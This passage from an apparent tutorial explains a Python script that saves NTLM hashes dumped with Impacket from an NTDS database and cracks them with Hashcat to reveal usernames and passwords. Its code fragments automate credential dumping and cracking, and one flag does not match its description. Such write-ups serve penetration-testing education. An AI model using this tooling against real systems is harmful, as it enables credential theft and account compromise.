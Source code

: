     with open('ntds-hashes.txt', 'w') as file:
        file.write("\n".join(relevant_lines))
    
    with open('nt-hashes.txt', 'w') as file:
        file.write('\n'.join(nt_hashes))

In the above code:

    The Impacket command is dynamically generated based on the provided command-line arguments.
    The script executes the command and captures the output.
    The output is processed to identify relevant lines containing NTLM hashes, which are then saved to files for further use.

This function sets the stage for the subsequent Hashcat cracking process.
Cracking NTLM Hashes (Continued)
run_hashcat Function

With NTLM hashes extracted, the run_hashcat function takes center stage, orchestrating the Hashcat engine for the cracking endeavor.

python

def run_hashcat(args):
    hash_cat = f"hashcat -m 1000 nt-hashes.txt {args.wordlist}"
    if args.rules:
        hash_cat += " -O"
    print(f"Executing: {hash_cat}")

    result = subprocess.run(hash_cat, shell=True, capture_output=True, text=True)
    
    recovered_match = re.search(r'Recovered\.\.\.\.\.\.\.\.: (\d+)/(\d+)', result.stdout)
    
    if recovered_match:
        # ...
        # (Code for processing Hashcat results)
        # ...

        if recovered_hashes > 0:
            run_hashcat_show(args)

Breaking down the run_hashcat function:

    The Hashcat command is dynamically constructed based on the provided command-line arguments, such as the hash mode, hash file, wordlist, and optional rules.
    The script executes the Hashcat command and captures the output.
    The output is processed to determine the number of recovered hashes, providing insights into the success of the cracking attempt.
    If hashes are successfully cracked, the run_hashcat_show function is called to display and save the results.

run_hashcat_show Function

The run_hashcat_show function completes the cracking phase, showcasing the cracked usernames and passwords.

